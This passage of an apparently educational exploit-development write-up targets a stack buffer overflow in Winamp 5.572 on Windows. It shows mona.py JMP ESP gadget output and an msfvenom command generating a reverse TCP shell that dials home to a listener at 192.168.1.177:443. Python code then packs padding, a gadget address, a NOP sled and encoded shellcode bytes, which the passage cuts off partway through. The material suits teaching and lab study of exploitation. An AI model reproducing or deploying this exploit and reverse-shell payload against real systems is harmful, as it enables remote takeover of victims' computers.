     7E45B310    0x7e45b310 : jmp esp |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)
    0BADF00D  ... Please wait while I'm processing all remaining results and writing everything to file...
    0BADF00D  [+] Done. Only the first 20 pointers are shown here. For more pointers, open jmp.txt...
    0BADF00D      Found a total of 247 pointers
    0BADF00D  
    0BADF00D  [+] This mona.py action took 0:01:45.452000

Awesome, lots of `JMP ESP` gadgets were discovered, I'll just go with the first one from `wmdmlog.dll` at address `0x59a050a3`. All discovered `JMP ESP` gadgets are written out to `jmp.txt`.



**Step 3: Shellcode**

We nearly have all the ingredient for a classical executable stack based overflow attack. We just some shellcode, a reverse shell that will dial home to our remote host, giving us control over the computer. Using metasploit:

    msfvenom -n 100 -p windows/shell_reverse_tcp -f python -a x86 --platform windows -b "\x00\x09\x0a\x0d\x1a" -e x86/shikata_ga_nai LHOST=192.168.1.177 LPORT=443 > shellcode.py



**Step 4: Craft the payload**

Python is very good for crafting payloads, especially useful is the `struct` package which will pack bytes according to the specified endianess.

Given all the ingredients have been obtained, simply need to pack the payload for poor old winamp according to the following layout:

    [ PADDING UNTIL EIP ][ JMP ESP GADGET ][ SHELLCODE ]

A little bit of python to pack the payload, noting the shellcode was already conveniently in python that to the `-f` switch using `msfvenon`. Checkout the `struct.pack` call - how dope is that!?

```python
import struct

buf = "Winamp 5.572"

buf += "A"*540

jmp_esp_addr = struct.pack('<I', 0x59a050a3)
buf += jmp_esp_addr

buf += "\x90" * 16 # small nop sled

#shell code from msfvenom
buf += "\x48\x41\x90\xf5\x27\x93\x4b\xf9\x41\xf9\xd6\x37\x9f"
buf += "\xf5\x2f\xf9\x37\x91\xf9\x3f\x3f\x9f\x43\x4a\x37\x98"
buf += "\x93\x41\x4b\x41\x41\x41\x3f\x27\x4b\x92\x2f\x98\x40"
buf += "\x41\x99\x90\xfd\xf9\x4a\x90\x98\x4b\x48\xf9\x43\xf5"
buf += "\xfc\x93\x40\x3f\xf5\x98\x9b\x42\x49\x37\x9f\x92\xf5"
buf += "\x92\x93\x90\x3f\x98\xd6\x92\x98\xfc\x92\x98\x3f\x43"
buf += "\x4a\x90\x27\x9b\x92\x42\x92\x42\x99\x92\x98\x27\xfd"
buf += "\x9b\x42\x92\x42\xfc\x98\xfc\xfc\xfc\xd9\xed\xd9\x74"
buf += "\x24\xf4\x58\xba\x5c\x49\xdd\x1b\x31\xc9\xb1\x52\x31"
buf += "\x50\x17\x03\x50\x17\x83\x9c\x4d\x3f\xee\xe0\xa6\x3d"
buf += "\x11\x18\x37\x22\x9b\xfd\x06\x62\xff\x76\x38\x52\x8b"
buf += "\xda\xb5\x19\xd9\xce\x4e\x6f\xf6\xe1\xe7\xda\x20\xcc"
buf += "\xf8\x77\x10\x4f\x7b\x8a\x45\xaf\x42\x45\x98\xae\x83"
buf += "\xb8\x51\xe2\x5c\xb6\xc4\x12\xe8\x82\xd4\x99\xa2\x03"
buf += "\x5d\x7e\x72\x25\x4c\xd1\x08\x7c\x4e\xd0\xdd\xf4\xc7"
buf += "\xca\x02\x30\x91\x61\xf0\xce\x20\xa3\xc8\x2f\x8e\x8a"
buf += "\xe4\xdd\xce\xcb\xc3\x3d\xa5\x25\x30\xc3\xbe\xf2\x4a"
buf += "\x1f\x4a\xe0\xed\xd4\xec\xcc\x0c\x38\x6a\x87\x03\xf5"
buf += "\xf8\xcf\x07\x08\x2c\x64\x33\x81\xd3\xaa\xb5\xd1\xf7"
```
